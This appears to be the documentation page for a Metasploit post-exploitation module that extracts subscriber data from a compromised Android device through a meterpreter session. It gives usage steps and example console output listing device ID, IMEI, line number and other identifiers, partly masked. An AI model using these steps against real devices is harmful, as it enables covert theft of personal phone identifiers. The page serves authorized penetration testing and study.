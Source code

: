## Vulnerable Application

  This post-exploitation module will extract subscriber information
  from the target device using  call service service call iphonesubinfo <transaction_code>.

## Verification Steps

  1. Start `msfconsole`
  2. Get meterpreter session
  3. Do: `use android/gather/sub_info`
  4. Do: `set SESSION <session id>`
  5. Do: `run`
  6. You should be able to see the extracted subsriber information.

## Options

  - **SESSION** - The session to run the module on.

## Extracted data

  - subscribe information

## Example Scenario


  ```
msf5 exploit(multi/handler) > use post/android/gather/sub_info
msf5 post(android/gather/sub_info) > set session 1
session => 1
msf5 post(android/gather/sub_info) > run

[!] SESSION may not be compatible with this module.
[*] using code : 1
[*] using code : 2
[*] using code : 3
[*] using code : 4
[*] using code : 5
[*] using code : 6
[*] using code : 7
[*] using code : 8
[*] using code : 9
[*] using code : 10
[*] using code : 11
[*] using code : 12
[*] using code : 13
[*] using code : 14
[*] using code : 15
[*] using code : 16
[*] using code : 17
[*] using code : 18
[*] using code : 19
[*] using code : 20
[*] using code : 21
[*] using code : 22
[*] using code : 23
[*] using code : 24
[*] using code : 25
[*] using code : 26
[*] using code : 27
[*] using code : 28
[*] using code : 29
Subscriber info
===============

 transaction code                      value
 ----------------                      -----
 CompleteVoiceMailNumber
 CompleteVoiceMailNumberForSubscriber
 DeviceId                              86928xxxxxxxxxx
 DeviceIdForSubscriber
 DeviceSvn                             8692890262xxxxx
 GroupIdLevel1                         4042772534xxxxx
 GroupIdLevel1ForSubscriber            4042772534xxxxx
 IccSerialNumber                       ff
 IccSerialNumberForSubscriber          ff
 IccSimChallengeResponse
 ImeiForSubscriber                     8692890xxxxxxxx
 IsimChallengeResponse
 IsimDomain                            Voicemail
 IsimImpi                              Voicemail
 IsimImpu
 IsimIst
 IsimPcscf
 Line1AlphaTag
 Line1AlphaTagForSubscriber
 Line1Number                           899127217xxxxxxxxxx
 Line1NumberForSubscriber              899127217xxxxxxxxxx
 Msisdn
 MsisdnForSubscriber
 SubscriberId                          01
 SubscriberIdForSubscriber             01
 VoiceMailAlphaTag
 VoiceMailAlphaTagForSubscriber
 VoiceMailNumber
 VoiceMailNumberForSubscriber

[*] Post module execution completed
msf5 post(android/gather/sub_info) >
  ```
